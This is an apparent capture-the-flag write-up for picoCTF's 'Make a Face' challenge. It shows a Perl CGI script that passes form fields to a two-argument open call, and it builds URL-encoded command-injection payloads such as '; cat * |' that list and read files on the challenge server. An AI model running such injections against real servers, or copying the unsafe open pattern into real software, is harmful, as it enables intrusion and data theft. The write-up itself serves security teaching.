






## Make a Face - 100 (Web Exploitation)
####Writeup by Oksisane

Created: 2014-11-08 15:05:08

Last modified: 2014-11-10 00:12:14


### Problem

It looks like Daedalus is working on a new project to generate digital avatars for use online. After taking a look, at their site: http://makeaface.picoctf.com/ it seems like there is a pretty good chance the project isn't completed, and may have some bugs. This might be the break we've been looking for to get inside their network.

### Hint

Making a face is cool, but making a shell is even better

## Answer


### Overview

Exploit Perl's [open](http://perldoc.perl.org/functions/open.html) command to run shell commands and `cat *` to print the contents of the flag.

### Details
Opening the source of `http://makeaface.picoctf.com/` we can see the perl source used to create the page (reproduced below):
```perl
#!/usr/bin/perl

use CGI;

$q = new CGI;
if (defined($q->param('Head'))) {
  print $q->header(-type=>'image/bmp');
  open(HEAD,"head".$q->param('Head'));
  open(HAIR,"hair".$q->param('Hair'));
  open(NOSE,"nose".$q->param('Nose'));
  open(MOUTH,"mouth".$q->param('Mouth'));
  open(EYES,"eyes".$q->param('Eyes'));

  while (read(HEAD,$headb,1)) {
    read(HAIR,$hairb,1);
    read(NOSE,$noseb,1);
    read(MOUTH,$mouthb,1);
    read(EYES,$eyesb,1);
    print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
  }
}
```
The `else` part of this code just performs initial page setup, so we can ignore it. Looking closer at the source we can see that the `open` function is called on on the user's selection of face components. To figure out how these are being sent to the script, we go back to the source of http://makeaface.picoctf.com/ where we find `js.js` (partially reproduced below).
```js

function loadImage() {
  var head = document.getElementsByName("Head")[0];
  var hair = document.getElementsByName("Hair")[0];
  var nose = document.getElementsByName("Nose")[0];
  var mouth = document.getElementsByName("Mouth")[0];
  var eyes = document.getElementsByName("Eyes")[0];
  var loading = document.querySelector("video");
  var canvas = document.querySelector("canvas")
  canvas.width = 256;
  canvas.height = 256;
  var context = canvas.getContext('2d');
  var image = new Image();
  image.src = "index.cgi?Head="+head.value+".bmp&Hair="+hair.value+".bmp&Nose="+nose.value+".bmp&Mouth="+mouth.value+".bmp&Eyes="+eyes.value+".bmp";
  loading.play();
  var i = setInterval(draw,20,loading,context);

  setTimeout(function(){clearInterval(i);context.drawImage(image,0,0);},wait);
  wait -= 200;
}
```
This load image function simply makes a request to the server in the format `<selection>.bmp` for each face component. For example, one valid component is `1.bmp`. At this point I am going to switch over to using [Postman](https://chrome.google.com/webstore/detail/postman-rest-client/fdmmgilgnpjigdojojpjoooidkmcomcm?hl=en) a Chrome extension which makes sending requests to a server easy. Once you have postman installed, browse to `chrome://apps` and click on Postman to open it. Fill out the settings as shown below (where the url is `http://makeaface.picoctf.com/index.cgi`):



Now that we can send POST requests to the server and recieve the responses, we need to figure out how to exploit this. As noted earlier, our input is being passed to the perl `open` function. A little googling [reveals](http://www.cgisecurity.com/lib/sips.html) that this is a big security issue. By appending a `|` to the end of our post request, whatever we send to the server will be executed as a shell command and the result will be sent back inside the image file! Let's try it in Postman (shown below):



Huh, that didn't work. Let's look back at the Perl line that interprets our input.
```perl
open(HEAD,"head".$q->param('Head'));
```
In our case, the open function would look like `headls |` and the server would try to run the `headls command` instead of the `ls` command. To fix this we add a `;` to the the start of our post request, so that the command executed by the server is `head; ls;`. Our full exploit is now `; ls|`.The postman request now looks like this:


Weird, that still didn't work. Since we are using special characters such as `|` and `;` we need to [URL Encode](http://www.w3schools.com/tags/ref_urlencode.asp) them. [This Tool](http://meyerweb.com/eric/tools/dencoder/) works well. When we input our string, `;ls |` we get `%3Bls%20%7C`. Also, since the first line of the perl script is
```perl
print $q->header(-type=>'image/bmp');
```
our browser thinks the resulting data is an image, not text. To fix this we simply download the image resulting from our post request (right click - save as) and open the downloaded file in a text editor. Puting all those fixes together, we get this postman request:


opening it gives us the text
```

head4.bmp
index.cgi
js.js
mouth1.bmp
mouth2.bmp
mouth3.bmp
nose1.bmp
nose2.bmp
nose3.bmp
```
but the file seems a bit malformed (with a bunch of NULLs at the start). Looking back at the perl script we see this line

```perl
print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
```
preforms a binary AND on all of the inputs. To get around this we simply set each input to our exploit instead of just the Head value:



Which reveals the text

```

SECRET_KEY_2b609783951a8665d8c67d721b52b0f8
css.css
eyes1.bmp
eyes2.bmp
eyes3.bmp
eyes4.bmp
hair0.bmp
hair1.bmp
hair2.bmp
head1.bmp
head2.bmp
head3.bmp
head4.bmp
index.cgi
js.js
mouth1.bmp
mouth2.bmp
mouth3.bmp
nose1.bmp
nose2.bmp
nose3.bmp

```

Now let's send another request to read the `SECRET_KEY_2b609783951a8665d8c67d721b52b0f8` file. By using the command `cat *` we can print out the contents of any file in the directory. So we set our command to `; cat * |`, which is `%3B%20cat%20*%7C` urlencoded.
.

Downloading and opening the `bmp` with a text editor reveals the flag!
### Flag
    why_did_we_stop_using_perl_again?
